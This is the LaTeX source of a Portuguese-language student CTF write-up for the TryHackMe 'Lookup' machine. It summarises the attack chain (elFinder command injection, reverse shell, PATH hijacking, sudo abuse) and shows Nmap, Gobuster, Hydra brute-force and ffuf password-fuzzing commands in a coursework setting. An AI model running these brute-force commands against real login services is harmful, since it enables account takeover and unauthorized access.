%==============================================================================
% Write-Up de CTF - Lookup (TryHackMe)
% Materia : CIC0087 - Topicos Avancados em Computadores - Turma 04 - 2026/2
% Depto.  : Departamento de Ciencias da Computacao
% Baseado na "Metodologia para Construcao de Write-Ups em CTF"
%
% Compilacao:  pdflatex main.tex   (rodar 2x para atualizar o Sumario)
%==============================================================================
\documentclass[12pt,a4paper]{article}

%------------------------- Codificacao e idioma -------------------------------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[brazil]{babel}

%------------------------- Fonte Times New Roman ------------------------------
\usepackage{newtxtext}   % corpo em Times
\usepackage{newtxmath}   % matematica em Times

%------------------------- Margens (minimo 2 cm) ------------------------------
\usepackage[a4paper,margin=2cm,headheight=15pt,includehead,includefoot]{geometry}

%------------------------- Utilitarios ----------------------------------------
\usepackage{graphicx}
\graphicspath{{img/}{./img/}}
\usepackage{xcolor}
\usepackage{float}
\usepackage[hidelinks]{hyperref}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage[most]{tcolorbox}
\usepackage{caption}
\usepackage{enumitem}
\usepackage{setspace}

\hypersetup{
  colorlinks=true,
  linkcolor=black,
  urlcolor=blue!60!black,
  citecolor=black
}
\onehalfspacing

%============================= METADADOS =======================================
\newcommand{\desafioNome}{Lookup}
\newcommand{\plataforma}{TryHackMe}
\newcommand{\dificuldade}{Fácil}
\newcommand{\dataResolucao}{29/10/2026}
\newcommand{\autorNome}{Luís Eduardo Curi Serra}

% Dados academicos (fixos para a disciplina)
\newcommand{\materia}{CIC0087 -- Tópicos Avançados em Computadores -- Turma 04 -- 2026/2}
\newcommand{\departamento}{Departamento de Ciências da Computação}
\newcommand{\matricula}{251033574}
\newcommand{\professor}{Roberto Rodrigues Filho}
\newcommand{\universidade}{Universidade de Brasília}
%===============================================================================

%------------------------- Cabecalho e rodape ---------------------------------
\pagestyle{fancy}
\fancyhf{}
\lhead{\small\itshape \desafioNome}
\rhead{\small\itshape \autorNome}
\lfoot{\small \materia}
\rfoot{\small Página \thepage}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

%------------------------- Estilo dos blocos de codigo ------------------------
\definecolor{codebg}{gray}{0.95}
\definecolor{codeframe}{gray}{0.75}
\definecolor{cmt}{RGB}{100,120,100}
\definecolor{kw}{RGB}{0,0,150}
\definecolor{str}{RGB}{150,50,50}

\lstdefinestyle{shell}{
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small,
  keywordstyle=\color{kw}\bfseries,
  commentstyle=\color{cmt}\itshape,
  stringstyle=\color{str},
  frame=single,
  rulecolor=\color{codeframe},
  breaklines=true,
  breakatwhitespace=false,
  postbreak=\mbox{\textcolor{codeframe}{$\hookrightarrow$}\space},
  columns=fullflexible,
  keepspaces=true,
  showstringspaces=false,
  tabsize=2,
  captionpos=b,
  xleftmargin=0.4em,
  xrightmargin=0.4em,
  aboveskip=1em,
  belowskip=1em,
}
\lstset{style=shell}

% Atalho: comando de terminal em linha
\newcommand{\cmd}[1]{\lstinline[style=shell]|#1|}

% Ambiente para OUTPUT (fundo levemente diferente, fonte menor)
\lstdefinestyle{output}{
  style=shell,
  backgroundcolor=\color{gray!8},
  basicstyle=\ttfamily\footnotesize,
  keywordstyle=\ttfamily,
}

%------------ Caixa de "becos sem saida" (tentativas sem sucesso) --------------
\definecolor{deadendbg}{RGB}{255,248,240}
\definecolor{deadendframe}{RGB}{193,108,44}
\newtcolorbox{becosemsaida}[1][Tentativas sem sucesso (becos sem saída)]{%
  enhanced, breakable,
  colback=deadendbg, colframe=deadendframe,
  colbacktitle=deadendframe, coltitle=white,
  boxrule=0.6pt, arc=2pt,
  left=8pt, right=8pt, top=6pt, bottom=6pt,
  fonttitle=\bfseries\small,
  title={#1}%
}

%===============================================================================
\begin{document}

%============================= 2.1 CAPA =========================================
\begin{titlepage}
  \thispagestyle{empty}
  \centering
  {\scshape \universidade \par}
  {\scshape \departamento \par}
  \vspace{0.4cm}
  {\small \materia \par}
  \vspace{2.5cm}

  \rule{\linewidth}{0.4pt}\par
  \vspace{0.6cm}
  {\huge \bfseries Write-Up: \desafioNome \par}
  \vspace{0.4cm}
  {\large Segurança Ofensiva --- Capture The Flag \par}
  \vspace{0.6cm}
  \rule{\linewidth}{0.4pt}\par

  \vspace{2.0cm}
  \begin{tabular}{rl}
    \textbf{Plataforma:}       & \plataforma       \\[4pt]
    \textbf{Dificuldade:}      & \dificuldade      \\[4pt]
    \textbf{Data de resolução:}& \dataResolucao    \\
  \end{tabular}

  \vfill

  \begin{tabular}{rl}
    \textbf{Autor:}     & \autorNome  \\[4pt]
    \textbf{Matrícula:} & \matricula  \\[4pt]
    \textbf{Professor:} & \professor  \\
  \end{tabular}

  \vspace{1.2cm}
  {\small \today \par}
\end{titlepage}

%============================= 2.2 SUMARIO ======================================
\newpage
\tableofcontents
\thispagestyle{fancy}
\newpage

%============================= 2.3 VISAO GERAL ==================================
\section{Visão Geral}
\textbf{Lookup} é uma máquina Linux de dificuldade \emph{fácil} que expõe SSH (22)
e um servidor web Apache (80). O acesso inicial é inteiramente \textbf{web}: a
raiz redireciona para o \emph{virtual host} \texttt{lookup.thm}, cuja página de
\emph{login} permite \textbf{enumerar usuários} por diferença de resposta --- o
usuário \texttt{jose} autentica com uma senha fraca e é redirecionado ao
subdomínio \texttt{files.lookup.thm}, que roda o \textbf{elFinder}. A versão do
elFinder é vulnerável a \textbf{injeção de comando} (\textbf{CVE-2019-9194}),
explorada pelo \emph{Resize \& Rotate} sobre um JPEG malicioso, resultando em
\emph{webshell} e \emph{reverse shell} como \texttt{www-data}. A
\textbf{movimentação lateral} para \texttt{think} ocorre por um binário
\textbf{SUID} personalizado (\texttt{/usr/sbin/pwm}) que lê o arquivo
\texttt{.passwords} com base na saída do comando \texttt{id}: via \textbf{PATH
hijacking} obtém-se a lista de senhas candidatas de \texttt{think}, quebrada por
Hydra no SSH. Por fim, \texttt{think} pode executar \texttt{/usr/bin/look} como
\texttt{root} (\textbf{GTFOBins}), lendo a \emph{flag} de \texttt{root}. Fluxo:
recon $\rightarrow$ enumeração de usuário $\rightarrow$ elFinder RCE
$\rightarrow$ \texttt{www-data} $\rightarrow$ PATH hijacking $\rightarrow$
\texttt{think} $\rightarrow$ \texttt{sudo look} $\rightarrow$ \texttt{root}.

%============================= 2.4 RECONHECIMENTO ===============================
\section{Reconhecimento}

\subsection{Varredura de portas}
\begin{lstlisting}[language=bash,caption={Varredura de portas e serviço web com Nmap.}]
nmap -T4 <TARGET_IP>
nmap -sV -sC -p80 <TARGET_IP>
\end{lstlisting}

Apenas \textbf{22/SSH} e \textbf{80/HTTP} abertas. O serviço web é
\textbf{Apache 2.4.41} e a raiz \textbf{redireciona} para \texttt{lookup.thm},
indicando \emph{name-based virtual hosting}.

\begin{lstlisting}[style=output,caption={Serviço web e redirecionamento.}]
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://lookup.thm
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{nmap.png}
  \caption{Varreduras Nmap: portas 22/80 e redirecionamento do HTTP para
  \texttt{lookup.thm}.}
  \label{fig:nmap}
\end{figure}

\subsection{Resolução do virtual host e enumeração web}
O Gobuster contra o IP só retorna o \texttt{index.php} que redireciona para
\texttt{lookup.thm}; é preciso resolver o \emph{host} localmente.

\begin{lstlisting}[language=bash,caption={Adição do virtual host ao /etc/hosts.}]
echo "<TARGET_IP> lookup.thm" | sudo tee -a /etc/hosts
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{gobuster_ip.png}
  \caption{Gobuster contra o IP: \texttt{index.php} redireciona (302) para
  \texttt{lookup.thm}.}
  \label{fig:gobuster_ip}
\end{figure}

Com o \emph{host} resolvido, a enumeração de \texttt{lookup.thm} revela a página
de \emph{login}.

\begin{lstlisting}[style=output,caption={Achados do Gobuster em lookup.thm.}]
index.php   (Status: 200) [Size: 719]
login.php   (Status: 200)
\end{lstlisting}

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item A primeira execução do Gobuster em \texttt{lookup.thm} deu
        \emph{timeout}: o \emph{host} ainda não estava em \texttt{/etc/hosts}.
        Após adicionar a entrada, a enumeração funcionou.
\end{itemize}
\end{becosemsaida}

%============================= 2.5 EXPLORACAO ===================================
\section{Exploração}

\subsection{Enumeração de usuário no login}
O \texttt{index.php} envia um POST a \texttt{login.php}. Testando apenas o usuário
\texttt{admin} com Hydra, encontra-se uma senha fraca --- um acerto de sorte que
serve de prova de conceito do formulário.

\begin{lstlisting}[language=bash,caption={Força bruta do login (usuário admin).}]
hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form \
  "/login.php:username=^USER^&password=^PASS^:F=Wrong username or password" -t 4 -f -V
# [80][http-post-form] login: admin  password: <PASSWORD>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{found_the_user.png}
  \caption{Virtual host em \texttt{/etc/hosts}, página de \emph{login} confirmada
  pelo Nmap e Hydra encontrando a senha de \texttt{admin}.}
  \label{fig:found_the_user}
\end{figure}

O caminho \emph{metódico}, porém, é observar que a aplicação devolve mensagens de
tamanho diferente para senha válida e inválida. Com \texttt{ffuf}, filtrando por
tamanho de resposta, descobre-se que \textbf{uma senha específica} produz uma
resposta distinta --- ou seja, é válida para \emph{outro} usuário.

\begin{lstlisting}[language=bash,caption={Fuzzing de senhas e análise por tamanho de resposta.}]
ffuf -w .../xato-net-10-million-passwords-1000000.txt -X POST \
  -u http://lookup.thm/login.php \
  -d "username=admin&password=FUZZ" \
  -H "Content-Type: application/x-www-form-urlencoded" -o ffuf_result.json -of json -t 40
jq -r '.results[] | select(.length != 62) | "\(.length) \(.input.FUZZ)"' ffuf_result.json
# -> 74  <PASSWORD>
\end{lstlisting}

\begin{figure}[H]
  \centering
